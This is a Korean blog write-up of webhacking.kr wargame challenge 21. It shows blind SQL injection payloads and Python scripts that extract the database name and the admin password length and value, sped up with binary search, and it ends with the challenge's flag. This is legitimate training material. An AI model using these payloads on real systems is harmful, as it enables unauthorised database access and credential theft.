 ```yaml
---
title: "[webhacking.kr] 21번 문제 풀이[blind sql injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - blind sql injection
  - sql
toc: true
toc_sticky: true
toc_label: "21번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
---
```


💡 Webhacking.kr challenge(old) 21번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
## 문제 화면
  ![image](https://user-images.githubusercontent.com/33647663/150917552-08962536-c588-488d-a29a-040408cf0151.png)
   
## 문제 풀이
   guest / guest 를 입력하면 다음화면과 같이 **login success** 문구가 나옵니다.
   
   ![image](https://user-images.githubusercontent.com/33647663/150917693-b7898772-6d5d-420d-b63c-337992a0b9e1.png)

   guest / 1234를 입력하면 다음과 같이 **login fail** 문구가 나옵니다. 

   ![image](https://user-images.githubusercontent.com/33647663/150917778-0d17494c-c240-456f-bb8c-ddef2505928c.png)

   blind sql injection을 수행하기 위해 비밀번호 입력하는 부분에 참 / 거짓을 판단할 수 있는 쿼리문을 작성해 봅니다.
   
   서버쪽 DB에 들어가는 쿼리가 다음과 같이 작성되어 있을것이라 가정하고, $pw부분에 다음 쿼리문들을 입력해 봅니다.

   ```sql
   select * from chall21 where id='$id' and pw='$pw';
   ```

   
   > ```' or 1=1 -- ``` : True화면
   > 
   > ![image](https://user-images.githubusercontent.com/33647663/150918138-db079501-c570-473b-8b5d-832b4644fc53.png)

   > ```' or 1=2 -- ``` : False화면
   > 
   > ![image](https://user-images.githubusercontent.com/33647663/150918178-0e86c772-ec21-4fa6-a8a9-679f22ecce8f.png)

   결과를 보고 추론을 해보자면, sql 문의 결과로 부터 DB에서 id,pw를 불러오고 php에서 한번더 검증을 하는 과정이 있는 것 같습니다.
   
    DB에서 아무것도 반환되지 않으면 -> login fail
    
    DB에서 반환이 되었지만 php 코드에서 한번더 검증할때 값이 틀리면 -> wrong password 로 출력이 되는 것 같습니다.

    중요한건 1=1 부분과 1=2 부분에서 참 거짓을 판단할 수 있는 지점을 찾았기 때문에 저곳을 이용해서 Blind sql injection을 수행하겠습니다.


## Blind sql injection
  우선 DB명 / table명 / 컬럼명 아무것도 알고 있는 것이 없으므로 차례대로 구해보겠습니다. 작업은 Python 코드로 했습니다. 
   
  **DB이름 구하기**
  
  ```python
  database_length = 10
  database_name = ''
  for i in range(1,database_length + 1):
      for j in range(127,32,-1):
          payload = "' or ascii(substr(database(),{},1)) = {} -- ".format(i,j)
          params['pw'] = payload
          response = requests.get(url,params=params)
          if(TRUE_FLAG in response.text):
              database_name += chr(j)
              print('database_name = ' + database_name)
              break
  print("database_name =" + database_name)
  ```

  코드 실행결과 DB이름은 'webhacking'이었습니다.
  그다음은 information_schema 를 이용해서 table명을 알아내려고 했는데, select문이 필터링 되어 있었습니다.

  ![image](https://user-images.githubusercontent.com/33647663/150922131-df6af47f-30b7-49b5-b050-175b1e043b87.png)

  그래서 원래는 다음과 같이 페이로드를 구성하고 injection을 수행하려고 했는데 이 방법은 안될것 같습니다.

  ```python
  for i in range(20):
    for j in range(32,127):
        payload = "' or (select ascii(substr(table_name,{},1)) from information_schema.tables where table_schema='webhacking') = {} -- ".format(i,j)
  ```

  여러가지 삽집을 좀 해본결과 column명을 한번 추측해서 해봤습니다. id 값을 저장하는 컬럼명을 'id', pw 값을 저장하는 컬럼명을 'pw'로 가정하고 blind sql injection을 수행하니 풀렸습니다. 이때 사용한 코드는 다음과 같습니다.

  ```python
  def get_password_length():
    for i in range(1,100):
        payload = "' or length(pw) = {} and id='admin' -- ".format(str(i))
        params['pw'] = payload
        response = requests.get(url,params=params)
        
        if('wrong password' in response.text):
            print("find password length")
            return i
  ```

  추가로 저의 payload를 보면 ```or length(pw) = {} and id='admin' -- ``` 으로 id='admin'인 조건을 걸어줬습니다. 해당 조건을 안걸어 주면 id='guest'인 경우의 비밀번호도 같이 조건을 만족하게 되기 때문입니다. 

  위의 코드로 실행해본 결과 컬럼에 있는 데이터의 길이는 36자리 였습니다.

  그 다음은 비밀번호를 알아내는 코드입니다. 일반적으로는 for문 반복 부분에서 ascii코드 값을 1씩 증가시켜서 단순 비교를 하지만, 저는 binary search 알고리즘을 사용해서 성능을 훨씬 올렸습니다.

  예를들어 
  ```python
  for i in range(32,127):
    payload = ' or ascii(substr(pw,1,1)) = {}-- '.format(i)
  ```
  이렇게 작성하면 만약 비밀번호의 첫번째 값이 z라면 아스키 코드값이 122라서 무려 90번의 시도를 하고나서야 첫번째 글자를 찾을 수 있습니다.

  하지만 binary search 알고리즘을 사용하면 저는 최대 8번 안에 무조건 값을 찾아낼 수 있기 때문에 성능 차이가 많이 납니다. 

  본 문제에서는 찾아야하는 비밀번호가 무려 36자리이기 때문에 보다 확실한 성능 차이가 났습니다.

  단순 반복문은 쿼리를 3420번 을 수행했고, binary search 알고리즘은 쿼리를 210번 수행해서 결과를 도출해 냈습니다.**평균적으로 단순 반복문은 하나의 글자를 찾기 위해서 95번의 쿼리를, binary search는 6번의 쿼리를 수행했습니다.** 
  
  단순 반복문 결과 : ![image](https://user-images.githubusercontent.com/33647663/150933253-e02e01b9-3d81-4657-bbdc-afc880197afb.png)

  binary Search 결과 : ![image](https://user-images.githubusercontent.com/33647663/150928020-6fae8811-fdf9-413e-8dc3-9ab978a57d93.png)


  최종 비밀번호 : **there_is_no_rest_for_the_white_angel**

  사용한 코드는 다음과 같습니다

  <script src="https://gist.github.com/kangmyoungseok/f039f0e0b1b832aa98f7aa7b255b4589.js"></script>
